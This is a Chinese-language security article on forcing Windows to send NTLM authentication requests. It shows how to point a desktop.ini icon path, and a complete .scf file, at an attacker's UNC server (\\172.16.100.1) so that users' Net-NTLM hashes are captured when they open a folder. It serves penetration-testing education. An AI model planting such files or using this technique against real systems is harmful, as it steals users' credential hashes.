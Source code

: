 # ntlm篇之发起ntlm 请求


## 0x00 前言

这篇文章是ntlm篇的第二篇，怎么发起ntlm请求。在 阅读这篇文章之前，有两点说明

1. 这篇文章的主要内容是使服务器向攻击者发起ntlm 请求，但是没有进一步利用，因此本篇文件的表述都是获得net-ntlm hash。使用Responder来捕获。Responder的用法可自行搜索。这里不展开。
2. 有些地方较为敏感，因此使用的net-ntlm hash的截图并非真实图片。这个地方不重要，主要证明能发起请求就行，出现net-ntlm hash 截图的地方都是本地测试，真实收到请求的。

## 0x01 图标

### 1.desktop.ini

文件夹底下都有个文件desktop.ini来指定文件夹图标之类的。默认不可见。去掉隐藏受保护的操作系统文件就可以看到

![image-20191120155020224](https://p2.ssl.qhimg.com/t016e954df14239888c.png)

![image-20191120155135498](https://p2.ssl.qhimg.com/t017613e6801d46b8d2.png)



每个文件夹底下都会有，我们新建一个新的文件夹的话，如果没看到desktop.ini，可以尝试更改图标，就可以看到了。

![image-20191120155912189](https://p0.ssl.qhimg.com/t011f619e477ffa9eaa.png)

将图标路径改成UNC路径，指向我们的服务器

![image-20191120160121209](https://p2.ssl.qhimg.com/t010a77d8e5b5f30c57.png)

![image-20191120160255783](https://p3.ssl.qhimg.com/t015d257a6f54d235c2.png)

当用户访问该文件夹的时候会去访问UNC路径,我们就能获取用户的net-ntlm  hash。

![image-20191120160851586](https://p0.ssl.qhimg.com/t0177cb454b7fb7506e.png)

### 2. scf 文件

只要一个文件底下含有scf后缀的文件,由于scf文件包含了IconFile属性，所以Explore.exe会尝试获取文件的图标。而IconFile是支持UNC路径的。以下是scf后缀的文件的格式

```
[Shell]
Command=2
IconFile=\\172.16.100.1\scf\test.ico
[Taskbar]
Command=ToggleDesktop
```

新建test.scf，写入内容，放在一个文件夹底下，当用户访问该文件夹的时候，我们就会获得用户的net-ntlm hash。

![image-20191120162237325](https://p2.ssl.qhimg.com/t01b937f566307adb94.png)
